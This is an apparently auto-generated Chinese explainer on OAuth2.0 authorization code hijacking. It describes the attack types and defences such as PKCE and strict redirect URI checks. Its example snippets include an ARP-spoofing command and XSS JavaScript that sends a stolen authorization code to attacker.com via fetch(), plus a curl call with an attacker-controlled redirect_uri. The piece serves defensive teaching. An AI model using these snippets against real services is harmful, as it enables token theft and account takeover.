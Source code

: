 # OAuth2.0 授权码劫持

## 1. 概述

OAuth2.0 是一种广泛使用的授权框架，允许第三方应用程序在用户授权的情况下访问受保护的资源。尽管 OAuth2.0 提供了强大的安全机制，但在实际应用中，授权码劫持（Authorization Code Interception）仍然是一个常见的安全威胁。本文将从定义、原理、分类、技术细节等方面系统性地阐述 OAuth2.0 授权码劫持，并提供防御思路和建议。

## 2. 定义

OAuth2.0 授权码劫持是指攻击者通过某种手段截获或窃取 OAuth2.0 授权流程中的授权码（Authorization Code），从而获取用户的访问令牌（Access Token），进而非法访问受保护的资源。

## 3. 原理

OAuth2.0 授权码流程（Authorization Code Flow）通常包括以下步骤：

1. **用户请求授权**：用户通过客户端应用程序访问受保护的资源，客户端应用程序将用户重定向到授权服务器。
2. **用户授权**：用户在授权服务器上进行身份验证并授权客户端应用程序访问资源。
3. **授权码返回**：授权服务器将授权码通过重定向 URI 返回给客户端应用程序。
4. **获取访问令牌**：客户端应用程序使用授权码向授权服务器请求访问令牌。
5. **访问资源**：客户端应用程序使用访问令牌访问受保护的资源。

在授权码流程中，授权码是通过重定向 URI 返回给客户端应用程序的。如果攻击者能够截获或窃取授权码，就可以在客户端应用程序之前使用授权码获取访问令牌，从而非法访问受保护的资源。

## 4. 分类

OAuth2.0 授权码劫持可以分为以下几类：

### 4.1 中间人攻击（Man-in-the-Middle Attack）

攻击者通过中间人攻击截获客户端应用程序与授权服务器之间的通信，获取授权码。

### 4.2 重定向 URI 劫持（Redirect URI Hijacking）

攻击者通过某种手段篡改客户端应用程序的重定向 URI，将授权码发送到攻击者控制的服务器。

### 4.3 客户端应用程序漏洞利用

攻击者利用客户端应用程序的漏洞（如跨站脚本攻击 XSS、跨站请求伪造 CSRF 等）获取授权码。

### 4.4 授权服务器漏洞利用

攻击者利用授权服务器的漏洞（如未正确验证重定向 URI、未正确保护授权码等）获取授权码。

## 5. 技术细节

### 5.1 中间人攻击

在中间人攻击中，攻击者通过某种手段（如 ARP 欺骗、DNS 欺骗等）将客户端应用程序与授权服务器之间的通信重定向到攻击者控制的服务器，从而截获授权码。

**攻击向量示例**：

```bash
# 攻击者使用 ARP 欺骗将客户端应用程序的流量重定向到攻击者控制的服务器
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

### 5.2 重定向 URI 劫持

在重定向 URI 劫持中，攻击者通过某种手段（如 XSS、CSRF 等）篡改客户端应用程序的重定向 URI，将授权码发送到攻击者控制的服务器。

**攻击向量示例**：

```javascript
// 攻击者通过 XSS 注入恶意脚本，篡改重定向 URI
document.location = "https://attacker.com/callback?code=authorization_code";
```

### 5.3 客户端应用程序漏洞利用

在客户端应用程序漏洞利用中，攻击者利用客户端应用程序的漏洞（如 XSS、CSRF 等）获取授权码。

**攻击向量示例**：

```javascript
// 攻击者通过 XSS 注入恶意脚本，获取授权码
var code = document.location.search.split('code=')[1];
fetch("https://attacker.com/steal?code=" + code);
```

### 5.4 授权服务器漏洞利用

在授权服务器漏洞利用中，攻击者利用授权服务器的漏洞（如未正确验证重定向 URI、未正确保护授权码等）获取授权码。

**攻击向量示例**：

```bash
# 攻击者通过未正确验证重定向 URI 的漏洞，将授权码发送到攻击者控制的服务器
curl -X POST "https://authserver.com/token" -d "code=authorization_code&redirect_uri=https://attacker.com/callback"
```

## 6. 防御思路和建议

### 6.1 使用 HTTPS

确保客户端应用程序与授权服务器之间的通信使用 HTTPS，防止中间人攻击。

### 6.2 验证重定向 URI

授权服务器应严格验证客户端应用程序的重定向 URI，确保授权码只能发送到合法的 URI。

### 6.3 使用 PKCE（Proof Key for Code Exchange）

PKCE 是一种增强 OAuth2.0 授权码流程安全性的机制，通过引入代码验证器（Code Verifier）和代码挑战（Code Challenge）防止授权码劫持。

**PKCE 示例**：

```javascript
// 客户端应用程序生成代码验证器和代码挑战
const codeVerifier = generateCodeVerifier();
const codeChallenge = generateCodeChallenge(codeVerifier);

// 客户端应用程序在授权请求中包含代码挑战
const authUrl = `https://authserver.com/authorize?client_id=client_id&redirect_uri=redirect_uri&code_challenge=${codeChallenge}&code_challenge_method=S256`;

// 客户端应用程序在令牌请求中包含代码验证器
const tokenUrl = `https://authserver.com/token?client_id=client_id&redirect_uri=redirect_uri&code=authorization_code&code_verifier=${codeVerifier}`;
```

### 6.4 使用 CSRF 保护

客户端应用程序应使用 CSRF 保护机制（如 CSRF Token）防止跨站请求伪造攻击。

### 6.5 定期安全审计

定期对客户端应用程序和授权服务器进行安全审计，发现并修复潜在的安全漏洞。

## 7. 结论

OAuth2.0 授权码劫持是一种严重的安全威胁，攻击者可以通过多种手段截获或窃取授权码，从而非法访问受保护的资源。通过使用 HTTPS、验证重定向 URI、使用 PKCE、使用 CSRF 保护以及定期安全审计等措施，可以有效防御 OAuth2.0 授权码劫持，保护用户资源的安全。

---

*文档生成时间: 2025-03-13 20:12:46*
